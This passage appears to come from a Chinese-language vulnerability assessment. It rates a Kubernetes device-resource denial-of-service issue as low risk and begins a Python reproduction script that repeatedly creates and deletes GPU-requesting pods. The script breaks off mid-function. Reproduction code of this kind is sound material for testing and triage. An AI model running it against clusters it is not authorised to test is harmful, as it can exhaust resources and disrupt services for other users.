因此，该问题虽然可能导致拒绝服务（DoS），但由于其利用需要较高权限，并非完全外部攻击者能够轻易触发，因此风险评级按照以下标准可判断为低风险。

**复现过程：**

```python
import threading
import time
import uuid
import traceback
from concurrent.futures import ThreadPoolExecutor, as_completed
from kubernetes import client, config
from kubernetes.client.rest import ApiException

# 定义全局超时时间（秒）
TOTAL_TIMEOUT = 120

def create_pod(api_instance, namespace, pod_name):
    """
    创建一个包含设备资源（模拟设备请求）的 Pod
    """
    pod_manifest = {
        "apiVersion": "v1",
        "kind": "Pod",
        "metadata": {"name": pod_name},
        "spec": {
            "containers": [
                {
                    "name": "device-test",
                    "image": "busybox",
                    "args": ["sleep", "3600"],
                    # 假设设备插件提供的资源名称为 nvidia.com/gpu
                    "resources": {
                        "limits": {"nvidia.com/gpu": "1"},
                        "requests": {"nvidia.com/gpu": "1"}
                    }
                }
            ],
            # 设置 restartPolicy 防止 Pod 重启造成额外负载
            "restartPolicy": "Never"
        }
    }
    try:
        api_instance.create_namespaced_pod(namespace=namespace, body=pod_manifest)
        print(f"Pod {pod_name} 创建成功")
    except ApiException as e:
        print(f"Pod {pod_name} 创建失败: {e}")
        traceback.print_exc()

def delete_pod(api_instance, namespace, pod_name):
    """
    删除指定 Pod
    """
    try:
        api_instance.delete_namespaced_pod(name=pod_name, namespace=namespace)
        print(f"Pod {pod_name} 删除成功")
    except ApiException as e:
        print(f"Pod {pod_name} 删除失败: {e}")
        traceback.print_exc()

def main():
    start_time = time.time()
    try:
        # 从默认位置加载 kubeconfig
        config.load_kube_config()
    except Exception as e:
```
